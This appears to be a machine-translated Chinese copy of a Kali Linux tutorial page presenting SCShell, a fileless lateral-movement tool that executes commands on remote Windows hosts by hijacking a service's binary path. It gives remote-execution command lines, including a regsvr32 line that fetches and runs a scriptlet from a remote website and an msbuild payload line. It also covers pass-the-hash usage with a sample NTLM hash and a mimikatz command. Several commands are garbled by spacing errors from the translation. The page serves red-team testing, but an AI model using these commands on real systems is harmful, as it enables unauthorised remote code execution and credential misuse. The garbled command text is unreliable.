

# SCShell:依赖 ChangeServiceConfigA 运行命令的无文件横向移动工具

> 原文：<https://kalilinuxtutorials.com/scshell/>

**SCShell** 是一个无文件横向移动工具，依靠 ChangeServiceConfigA 运行命令。该工具的优点在于它不针对 SMB 执行身份验证。一切都是通过 DCERPC 执行的。

无需注册服务或创建服务，即可远程使用该实用程序。它也不需要在远程系统上删除任何文件*(取决于用来执行的技术)

**它是如何工作的？**

它只是远程打开一个服务，并通过`**ChangeServiceConfigA**` API 修改二进制路径名，而不是创建一个服务。

然后它启动服务。

一旦执行完成，服务二进制路径就恢复到原来的路径。使用`**QueryServiceConfigA**`提取原始服务路径。

一切都发生在 DCERPC 上，包括身份验证。

**也可理解为-[win pwn:内部 Windows 渗透测试/ AD 安全自动化](https://kalilinuxtutorials.com/winpwn-automation-internal-windows-penetrationtest-ad-security/)**

**用途**

当前版本是用`C`写的，但是我会把它移植到`**C#**`和`**PowerShell**`。

**SCShell.exe 目标服务有效负载域用户名密码**

`**target**`可设置为`**local**`以本地运行有效载荷

远程执行

SCShell.exe 192 . 168 . 197 . 131 XblAuthManager " C:\ windows \ system32 \ cmd . exe/C C:\ windows \ system32 \ regsvr 32 . exe/s/n/u/I://your . website/payload . SCT scrobj . dll "。管理员密码

我建议使用`**C:\windows\system32\cmd.exe /c**`来确保一旦服务停止，有效载荷不会被杀死。您需要使用完整路径。

您也可以使用 msbuild 有效负载

SCShell.exe 192 . 168 . 197 . 131 XblAuthManager " C:\ Windows \ system32 \ cmd . exe/C。NET \ Framework \ v 4 . 0 . 30319 \ msbuild . exe C:\ payload . csproj "。提供了管理员密码
SCShell ***
尝试连接 192.168.197.131
用户名尝试调用 LogonUserA
SC _ HANDLE Manager 0x 009 ed 250
打开 XblAuthManager
SC _ HANDLE Service 0x 009 ed 1 b 0
服务路径更改为 C:\ Windows \ system32 \ cmd . exe/C:\ Windows \ Microsoft。NET \ Framework \ v 4 . 0 . 30319 \ msbuild . exe C:\ payload . csproj
服务已启动。

我使用 XblAuthManager 作为目标，它是 Xbox 附件管理服务

**路过哈希**

py 是 scshell 的 python2 & 3 实现。使用 impacket 项目，它可以很容易地用于执行相同的横向移动使用传递散列。

**安装**

**pip 安装插入包**

**用途**

python scshell . py DOMAIN/USER @ target-hashes 00000000000000000000000000:ad 9827 fcd 039 eadde 017568170 abdecce im packet v 0 . 9 . 20-Copyright 2019 secure auth Corporation

[*]命令需要使用完整路径。没有命令输出。谢尔>

您可以使用`C`实用程序来传递散列。默认情况下，将使用当前进程令牌。您可以使用标准的传递散列方法来设置当前进程令牌。

**在本地系统上**

**sekurlsa::PTH/user:user/domain:domain/NTLM:hash/run:cmd . exe**

然后在新创建的 cmd.exe 中运行 SCShell.exe。

**编译来源**

代码是在 Windows 上使用 GCC Mingw 编译器编译的

**鸣谢:Un1k0d3r RingZer0 先生团队**

[**Download**](https://github.com/Mr-Un1k0d3r/SCShell)